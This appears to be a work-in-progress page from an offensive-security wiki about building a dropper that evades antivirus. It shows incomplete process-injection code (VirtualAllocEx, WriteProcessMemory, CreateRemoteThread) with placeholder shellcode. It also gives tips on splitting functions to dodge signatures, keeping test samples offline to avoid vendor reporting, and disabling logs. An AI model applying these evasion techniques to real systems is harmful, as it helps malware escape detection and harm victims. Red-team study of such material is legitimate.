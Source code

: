 ```yaml
---
authors: 'Jenaye, ShutdownRepo'
category: evasion
---
```


# 🛠️ Dropper

> [!WARNING]
> This is a work-in-progress. It's indicated with the 🛠️ emoji in the page name or in the category name. Wanna help? Please reach out to me: [@_nwodtuhs](https://twitter.com/_nwodtuhs)

As for the loader, it is also possible to make a simple one, but the more complex it is, the more likely it is that the anti-virus will not see it

Knowing that an anti-virus compares the signature of our program and the signature of the functions with those of the malware, it is up to the attacker to use his imagination to disguise his program.

In the example below, the anti-virus will raise an alert:

```cpp
static void Main(string[] args)
{
 byte[] buf = new byte[xxx]{ 0x27, 0x3B, 0x38, 0x7D, 0xF4, 0x44 }
 IntPtr MyTests = OpenProcess(PROCESS_ALL_ACCESS, false, processId);
 IntPtr addr = VirtualAllocEx(MyTests, IntPtr.Zero, (uint)buf.Length, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);
 WriteProcessMemory(MyTests,xxxxx);
 IntPtr hThread = CreateRemoteThread(MyTests, xxxxxx);
}
```

But, if a sub function is added to create a thread as follow:

```cpp
static void CRT()
{
 IntPtr hThread = CreateRemoteThread(MyTests, xxxxxx);
}

static void Main(string[] args)
{
 byte[] buf = new byte[xxx]{ 0x27, 0x3B, 0x38, 0x7D, 0xF4, 0x44 }
 IntPtr MyTests = OpenProcess(PROCESS_ALL_ACCESS, false, processId);
 IntPtr addr = VirtualAllocEx(MyTests, IntPtr.Zero, (uint)buf.Length, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);
 WriteProcessMemory(MyTests,xxxxx);
 CRT()
}
```

By using the previous source code the anti-virus will have more difficulty to understand what is happening. The Russian doll technique can be a good trick to hide a malicious function.

> [!CAUTION]
> The fact of compiling several times will not give us a new signature, only the modification of the code has an impact

> [!CAUTION]
> Once the binary is ready to be executed, access to the internet should be cut in the test environment in order not to send the signature of the bypass to Microsoft or to the editor.

To optimize the probability to bypass the protections we will have to combine several techniques, for example encrypt the active load, de-activate Microsoft logs or choose a special way to inject the virus (cf [process injection](process-injection.md)). 

